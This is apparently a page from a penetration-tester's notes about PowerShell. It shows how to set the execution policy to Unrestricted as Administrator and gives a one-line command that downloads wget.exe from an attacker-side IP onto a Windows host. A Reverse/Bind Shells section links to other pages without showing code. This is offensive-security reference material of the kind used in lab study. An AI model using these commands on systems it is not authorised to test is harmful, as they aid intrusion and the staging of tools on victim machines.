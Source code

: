 # PowerShell

## Enable PowerShell execution policy

* PowerShell maintains an execution policy that determines which type of PowerShell scripts (if any) can be run on the system.&#x20;
* The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts.
* To set an “Unrestricted” execution policy on our Windows client machine. Run Windows PowerShell application as Administrator.

```
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```

![](https://lh4.googleusercontent.com/5eEcCVnnBLRd4iYiO9ze7W9ow-L\_EkITQKx0WQo3mPVeLasOK\_lj2QkoU84hf5M4mTVY1ePTk214edOgr2d\_EdpcXLwT1fRksnqihgTjFayRaPYbODWJtbKUfuI328\_f-a3tL8aa)

## File Transfers

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.189/wget.exe','C:\Users\Administrator\Desktop\wget.exe')"
```

Also see:

{% content-ref url="../../collections/file-transfer.md" %}
[file-transfer.md](../../collections/file-transfer.md)
{% endcontent-ref %}

## Reverse/Bind Shells

See the following:

{% content-ref url="../../collections/reverse-shell/powershell-1.md" %}
[powershell-1.md](../../collections/reverse-shell/powershell-1.md)
{% endcontent-ref %}

{% content-ref url="../../collections/bind-shell/powershell.md" %}
[powershell.md](../../collections/bind-shell/powershell.md)
{% endcontent-ref %}


